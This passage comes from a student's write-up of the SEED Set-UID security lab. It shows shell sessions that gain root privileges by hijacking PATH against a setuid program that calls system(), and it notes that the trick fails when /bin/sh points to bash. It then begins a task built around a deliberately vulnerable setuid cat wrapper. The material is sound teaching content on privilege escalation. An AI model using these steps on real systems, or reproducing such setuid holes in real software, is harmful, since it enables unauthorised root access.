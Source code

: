 ```sh
seed@ubuntu:~$ cd /tmp/
seed@ubuntu:/tmp$ sudo su
[sudo] password for seed: 
root@ubuntu:/tmp# gcc -o system system.c 
root@ubuntu:/tmp# chmod u+s system
root@ubuntu:/tmp# exit
exit
seed@ubuntu:/tmp$ cp /bin/sh /tmp/ls
seed@ubuntu:/tmp$ ./system 
ubuntu# id
uid=1000(seed) gid=1000(seed) euid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare),130(wireshark),1000(seed)
```

It can have root previlege, copy `/bin/sh` to `/tmp` with new name `ls`.(make sure `sh -> zsh`). Then set `PATH` to current directory `/tmp`, compile and run `system` program and we will get root previlege.

(b) Now, change `/bin/sh` so it points back to `/bin/bash`, and repeat the above attack. Can you still get the root privilege? Describe and explain your observations.

```sh
seed@ubuntu:~$ sudo su
[sudo] password for seed: 
root@ubuntu:/home/seed# cd /bin
root@ubuntu:/bin# rm sh
root@ubuntu:/bin# ln -s bash sh
root@ubuntu:/bin# ls -al sh
lrwxrwxrwx 1 root root 4 Aug  8 02:13 sh -> bash
root@ubuntu:/bin# exit
exit
seed@ubuntu:~$ cd /tmp/
seed@ubuntu:/tmp$ ./system 
ls-4.2$ id
uid=1000(seed) gid=1000(seed) groups=1000(seed),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare),130(wireshark)
```

We can't get root privilege.

5.. The difference between `system()` and `execve()`.
Before you work on this task, please make sure that `/bin/sh` is point to `/bin/zsh`.
Background: Bob works for an auditing agency, and he needs to investigete a company for a suspected fraud. For the investigation purpose, Bob needs to be able to read all the files in the company's Unix system; on the other hand, to protect the integrity of the system, Bob should not be able to modify any file. To achieve this goal, Vince, the superuser of the system, wrote a special set-root-uid program(see below), and then gave the executable permission to Bob. This program requires Bob to type a file name at the command line, and then it will run `/bin/cat` to display the specified file. Since the program is running as a root, it can display any file Bob specifies. However, since the program has no write operations, Vince is very sure that Bob cannot use this special program to modify any file.

```c
#include <string.h>
#include <stdio.h>
#include <stdlib.h>
int main(int argc, char *argv[])
{
   char *v[3];
   if(argc < 2)
   {
   printf("Please type a file name.\n");
   return 1;
   }
   v[0] = "/bin/cat"; v[1] = argv[1]; v[2] = 0;
  //Set q = 0 for Question a, and q = 1 for Question b
```